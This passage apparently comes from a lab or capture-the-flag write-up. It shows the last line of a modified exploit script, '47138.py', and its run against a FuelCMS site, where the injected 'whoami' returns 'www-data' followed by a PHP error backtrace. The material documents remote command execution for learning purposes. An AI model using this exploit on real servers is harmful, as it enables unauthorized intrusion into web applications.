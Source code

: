 ```
        print r.text[0:dup]
```

Executing the modified script gives us the result of the given command and an additonal error GET response
```
$ python 47138.py
cmd:whoami
systemwww-data

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

<h4>A PHP Error was encountered</h4>

<p>Severity: Warning</p>
<p>Message:  preg_match(): Delimiter must not be alphanumeric or backslash</p>
<p>Filename: controllers/Pages.php(924) : runtime-created function</p>
<p>Line Number: 1</p>


        <p>Backtrace:</p>








                        <p style="margin-left:10px">
                        File: /var/www/html/fuel/modules/fuel/controllers/Pages.php(924) : runtime-created function<br />
                        Line: 1<br />
                        Function: preg_match                    </p>






                        <p style="margin-left:10px">
                        File: /var/www/html/fuel/modules/fuel/controllers/Pages.php<br />
                        Line: 932<br />
                        Function: array_filter                  </p>






                        <p style="margin-left:10px">
                        File: /var/www/html/index.php<br />
                        Line: 364<br />
                        Function: require_once                  </p>




</div>
```
